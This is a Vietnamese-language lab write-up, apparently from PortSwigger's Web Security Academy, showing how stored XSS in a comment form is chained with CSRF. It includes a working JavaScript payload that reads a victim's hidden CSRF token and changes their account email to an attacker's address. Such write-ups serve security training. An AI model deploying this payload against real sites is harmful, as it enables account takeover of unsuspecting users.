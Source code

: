 ![image](../img/15.1.png)

#### một bài khá hay về XSS và CSRF, mình cũng đã mất khá nhiều thời gian để solved bài này

![image](../img/15.2.png)

login với tài khoản được cung cấp rồi tiến hành dùng thử feature của ứng dụng, mình quan sát burp suite thấy nó 1 endpoint như trên

phần data được truyền vào là do mình nhập `email=xxx@gmail.com`, còn phần `csrf` bản thân nó bị dev hidden trong source code nên ở phần giao diện chúng ta sẽ không thấy được nhé

Giải thích:
khi người dùng muốn thay đổi email thì sẽ phải cung cấp cho endpoint trên cả email muốn thay đổi đi kèm với `csrf` ( cái này sẽ được tạo ra khi login, nó giống như 1 cái token để xác định ae là ai vậy)

mình sẽ không đi chứng minh web này bị store XSS nữa nhé, ae nên tự chứng minh, và mình sẽ đi vào exploit luôn

Câu hỏi mình đặt ra:
` sẽ ra sao nếu mình lấy được csrf của mỗi người dùng khi login vào và thay đổi email của người dùng đó?`

để làm gì à =)), thì khi mình có email mình có thể exploit chain mà, lo gì không có thứ để dùng :v 

vì ứng dụng tồn tại Store XSS nên mình sẽ embedded mã khai thác vào và chờ user động đến nó thôi là thành công thay đổi email của họ rồi

đoạn code mình viết để khai thác như sau:
```
<script>
window.addEventListener('DOMContentLoaded',function(){
    var csrf = document.getElementsByName('csrf')[0].value
    var formdata = new FormData();
    formdata.append('email','khiemhacked@gmail.com');
    formdata.append('csrf',csrf)
    fetch('https://0a9c00e10310e313855d4a2000190033.web-security-academy.net/my-account/change-email',{
        method :'POST',
        mode :'no-cors',
        body: formdata
    });
});
</script>
```
thật sự dễ hiểu lắm nên ae hãy cố gắng đọc, khó quá thì lên chatGPT nó nhắc bài cho =)))

à, truyền cái payload này vô form comment nhé, vì nó bị store XSS

trình mình còn khá non nên bài này ngồi ngẫm mất gần tiếng mới ngộ ra haizzz

`soong1002gavl`